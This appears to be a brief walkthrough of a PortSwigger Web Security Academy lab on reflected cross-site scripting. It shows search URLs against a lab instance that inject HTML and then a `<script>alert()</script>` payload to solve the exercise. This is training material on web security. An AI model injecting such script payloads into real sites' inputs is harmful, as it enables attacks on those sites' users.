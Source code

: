 # Reflected XSS into HTML context with nothing encoded

## This lab contains a simple [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality.

## To solve the lab, perform a cross-site scripting attack that calls the `alert` function.

---

### step 1
`https://0a7b000c0436edbdc665d52c000100ef.web-security-academy.net/?search=market`

you will get search result

### step2

here test `<p> hello</p>`

`https://0a7b000c0436edbdc665d52c000100ef.web-security-academy.net/?search=<p>hello</p>`

you will get hello on browser
now
`https://0a7b000c0436edbdc665d52c000100ef.web-security-academy.net/?search=<script>alert()</script>`

alert function will pop up window on screen
